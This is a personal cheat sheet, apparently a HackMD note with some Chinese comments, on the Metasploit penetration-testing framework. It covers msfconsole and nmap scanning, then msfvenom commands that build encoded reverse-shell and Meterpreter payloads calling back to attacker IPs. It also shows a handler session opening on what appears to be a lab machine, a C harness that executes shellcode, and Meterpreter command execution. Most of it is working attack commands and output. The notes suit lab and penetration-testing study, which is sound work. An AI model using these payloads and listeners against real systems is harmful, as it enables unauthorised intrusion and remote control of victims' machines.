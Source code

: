 # Metasploit
[TOC]
###### tags: `Security` `Tools`

# Reference
[Using exploits](https://www.offensive-security.com/metasploit-unleashed/using-exploits/)

# Msfconsole
```
msf> search snmp
msf> use exploit/.../.../...
msf> info
msf> show options
msf> set RHOST 192.168...
msf> set LHOST 192.168...
msf> set LPORT ...
msf> set PAYLOAD windows/...
msf> exploit
```
 + set global parameter
`msf> setg RHOSTS 192.168...`

 + database services
```
msf> hosts
msf> db_nmap 192.168.31.200-254 --top-ports 20
msf> services -p 443 # print all machine open 443 port
```

## modules
 * #### Auxiliary
```
msf > show auxiliary
```
 * #### Exploits
 
# MSFVenom
## cheatsheet
```
msfvenom --list payloads | grep linux | grep x64    // search payloads
msfvenom -p linux/x64/exec --list-options           // list options
// generate full interactive reverse shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin 
```
## overview
```
msfvenom -p windows/shell_reverse_tcp  \
LHOST=192.168.30.5                     \
LPORT=443                              \
-f c                                   \
-a x86                                 \
--platform windows                     \
-b "\x00\x0a\x0d"                      \
-e x86/shikata_ga_nai                  \
EXITFUNC=thread
```
注意這個生成的 `shellcode` 會需要用到 `stack` 自我解壓縮 ，如果 `shellcode` 放在 `stack` 中(`ESP`指向位置)，要記得在最前頭塞 `nop`

### EXITFUNC
 * thread: This method is used in most exploitation scenarios where the exploited process (e.g. IE) runs the shellcode in a sub-thread and exiting this thread results in a working application/system (clean exit)
 * process: This method should be used with **multi/handler**. This method should also be used with any exploit where a master process restarts it on exit.
 * seh: This method should be used when there is a structured exception handler (SEH) that will restart the thread or process automatically when an error occurs.
 
[shellcode note](https://hackmd.io/@WildfootW/Cybersecurity/%2F%40WildfootW%2FS1DpqYLYW)
[msfvenom command cheat sheet](https://netsec.ws/?p=331)

## Useful Payload
* `use windows/meterpreter/reverse_https`
* `use windows/meterpreter/reverse_tcp_allports`

## Payload staged/non-staged
```
msfvenom -p <payload> -f <format> LHOST= LPORT= -e <encoder> -b <bad-chars>
# -e x86\shikata_ga_nai
msfvenom –list payload
```
* staged payload `Metasploit exploit/multi/handler` `windows/shell/reverse_tcp`
* non-staged payload `nc -nvlp [port]` `windows/shell_reverse_tcp` (sent in its entirety in one go)
```
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
```

### example: using staged payload
<pre><u style="text-decoration-style:single">msf6</u> &gt; use exploit/multi/handler 
<font color="#277FFF"><b>[*]</b></font> Using configured payload generic/shell_reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lhost 10.10.14.12
lhost =&gt; 10.10.14.12
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set lport 7702
lport =&gt; 7702
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; set payload linux/x64/meterpreter/reverse_tcp 
payload =&gt; linux/x64/meterpreter/reverse_tcp
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>multi/handler</b></font>) &gt; run
</pre>

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=7702 -f elf -o msf.bin
// generate upload & execute
```

<pre><font color="#277FFF"><b>[*]</b></font> Started reverse TCP handler on 10.10.14.12:7702 
<font color="#277FFF"><b>[*]</b></font> Sending stage (3008420 bytes) to 10.10.10.61
<font color="#277FFF"><b>[*]</b></font> Meterpreter session 1 opened (10.10.14.12:7702 -&gt; 10.10.10.61:46986) at 2020-11-14 21:02:55 +0800

<u style="text-decoration-style:single">meterpreter</u> &gt; ls
</pre>

## test payload
format 選 `-f c`
```
#include <stdio.h>

unsigned char buf[] = ""

int main()
{
    void (*f)() = (void (*)()) buf;
    f();
    return 0;
}
```
編譯
```
gcc -m32 -z execstack
```


# Meterpreter
## Online Resources
* [METERPRETER BASIC COMMANDS](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
## Commands
### execute
```
meterpreter > execute -f bash -i
-f <opt>  The executable command to run.
-i        Interact with the process after creating it.
-a <opt>  The arguments to pass to the command.
-c        Channelized I/O (required for interaction).
```